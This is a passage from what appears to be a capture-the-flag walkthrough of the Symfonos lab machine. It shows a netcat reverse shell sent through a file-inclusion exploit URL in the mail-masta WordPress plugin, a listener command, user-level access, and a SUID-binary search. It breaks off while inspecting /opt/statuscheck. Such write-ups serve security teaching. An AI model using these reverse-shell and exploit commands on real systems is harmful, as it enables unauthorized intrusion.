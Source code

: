 Now do the same with a reverse shell, using a nc reverse shell for simplicity:

```
nc -e /bin/sh 192.168.56.1 1234
```

Start the listener:

```
nc -lvp 1234
```

Go to the url with the cmd param equal to the reverse shell:

```
http://symfonos.local/h3l105/wp-content/plugins/mail-masta/inc/campaign/count_of_send.php?pl=/var/mail/helios&cmd=nc -e /bin/sh 192.168.56.1 1234
```

### User:

We now have access as the user helios:

```
id
uid=1000(helios) gid=1000(helios) groups=1000(helios),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev),108(netdev)
```

Looked for user flag found none.

### Root:

Find programs helios can run as root:

```
find / -perm /4000 2>/dev/null
/usr/lib/eject/dmcrypt-get-device
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/openssh/ssh-keysign
/usr/bin/passwd
/usr/bin/gpasswd
/usr/bin/newgrp
/usr/bin/chsh
/usr/bin/chfn
/opt/statuscheck
/bin/mount
/bin/umount
/bin/su
/bin/ping
```

The obvious standout is statuscheck

#### Checking out statuscheck:

```
cd /opt 

strings statuscheck
/lib64/ld-linux-x86-64.so.2
libc.so.6
system
__cxa_finalize
__libc_start_main
_ITM_deregisterTMCloneTable
__gmon_start__
_Jv_RegisterClasses
_ITM_registerTMCloneTable
GLIBC_2.2.5
curl -I H
```